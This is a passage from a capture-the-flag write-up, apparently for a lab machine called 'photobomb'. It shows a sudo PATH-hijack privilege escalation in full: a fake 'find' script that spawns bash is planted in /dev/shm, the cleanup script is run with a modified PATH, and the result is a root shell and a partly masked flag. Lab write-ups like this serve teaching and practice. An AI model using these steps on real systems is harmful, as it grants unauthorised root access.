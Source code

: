 ```
                   return 127
                fi
        }
fi

```

### Path Hijack

#### Easy Path

There’s a very simple path hijack in the script. I’ll notice that all the binaries called are referenced with full path except for that last `find`:

```

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```

That means that `bash` will search the directories specified in the `$PATH` environment variable looking for a binary named `find`. Typically, it’ll find `find` in `/usr/bin/find`.

But that’s where the `SETENV` becomes useful to me.

I’ll create a script called `find` in a temp space like `/dev/shm` and set it as executable:

```

wizard@photobomb:/dev/shm$ echo -e '#!/bin/bash\n\nbash'        
#!/bin/bash

bash
wizard@photobomb:/dev/shm$ echo -e '#!/bin/bash\n\nbash' > find
wizard@photobomb:/dev/shm$ chmod +x find

```

Running this `find` just starts a new `bash` instance as the current user.

Now I’ll run `cleanup.sh` as root but with the `PATH` variable including the current directory at the front of the path:

```

wizard@photobomb:/dev/shm$ sudo PATH=$PWD:$PATH /opt/cleanup.sh 
root@photobomb:/home/wizard/photobomb#

```

It returns a root shell. And I can read `root.txt`:

```

root@photobomb:~# cat root.txt
bbfa4b76************************

```
